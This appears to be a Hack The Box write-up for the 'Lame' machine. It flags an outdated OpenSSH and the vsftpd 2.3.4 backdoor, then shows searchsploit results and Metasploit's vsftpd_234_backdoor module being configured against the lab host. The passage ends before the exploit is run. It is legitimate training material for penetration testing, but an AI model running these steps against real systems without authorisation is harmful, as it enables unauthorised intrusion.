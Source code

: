 ### 1.1.1 (critical) OpenSSH 4.7p1 outdated version

OpenSSH 4.7p1 is considered outdated and potentially insecure, lacking numerous security features and patches present in later versions.

Reference: https://www.cvedetails.com/version/430455/Openbsd-Openssh-4.7p1.html
### 1.1.2 (critical) vsftpd 2.3.4 Backdoor Command Execution CVE-2011-2523

vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp.

Reference: https://www.cvedetails.com/cve/CVE-2011-2523
#### 1.1.2.1 Search

```less
┌─[✗]─[r4ndhex@parrot]─[~/Obsidian/hackthebox/machine/lame]
└──╼ $ searchsploit "vsftpd 2.3.4"
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                            | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                               | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

#### 1.1.2.2 Configure

```less
┌─[r4ndhex@parrot]─[~/Obsidian/hackthebox/machine/lame]
└──╼ $ sudo msfconsole

[msf](Jobs:0 Agents:0) >> search "vsftpd 2.3.4"

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOST lame.htb 

RHOST => lame.htb
```
